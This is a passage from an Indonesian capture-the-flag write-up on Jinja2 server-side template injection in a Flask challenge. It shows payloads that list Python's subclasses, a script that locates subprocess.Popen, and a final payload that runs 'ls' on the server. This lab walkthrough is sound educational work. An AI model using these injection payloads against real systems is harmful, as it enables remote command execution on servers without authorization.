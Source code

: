 **4. Craft Payload to Get List of File**

Karena ku masih kurang tahu cara manggil fungsi buat lihat list of file di direktori, ku cari-cari info di internet.

Setelah ku cari-cari ku nemu website [ini](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) yang berisi tips and trick melakukan injeksi template di ```jinja2``` (templating engine Flask).

Setelah melakukan uji coba beberapa kombinasi, ku menemykan bahwa dengan potongan kode berikut:
```
{%print(dict.__base__.__subclasses__()[idx])%}
```
Kita bisa mengakses fungsi bawaan python yang secara otomatis berada di kelas ```object```. Masalahnya adalah, ```idx``` buat fungsi yang sesuai di web yang disebutkan sebelumnya dan di server challenge itu berbeda sehingga ku membuat script di file ```Vacation Gallery 2.py``` untuk mencari kelas yang mempunyai nama ```subprocess.Popen``` untuk mengirimkan command ```ls``` ke server.

Tapi sebelum itu, kita perlu dapat list of class nya. Untuk hal ini, digunakan command berikut:
```
{%print(dict.__base__.__subclasses__())%}
```
Untuk mendapatkan daftar builtin class/method.
![proof](Vacation%20Gallery%202-5.png)

Dari data yang didapatkan, masukkan ke file ```Vacation Gallery 2.py``` hingga isinya menjadi berikut:
```
LIST_OF_FUNCTIONS = """
[<class 'type...
"""
if __name__=='__main__':
    lists = LIST_OF_FUNCTIONS.split(',')
    for i in range(len(lists)):
        if 'subprocess.Popen' in lists[i]:
            print(f"FOUND at index {i}")
```
Lalu kita jalankan dan diperoleh:
```
FOUND at index 364
```
Diperoleh fungsi untuk membuka subprocess terminal berada di indeks **364**. Dengan referensi di web yang disebutkan tadi, berikut payload untuk melihat daftar file di direktori:
```
{%print(dict.__base__.__subclasses__()[364]('ls',shell=True,stdout=-1).communicate()[0].strip())%}
```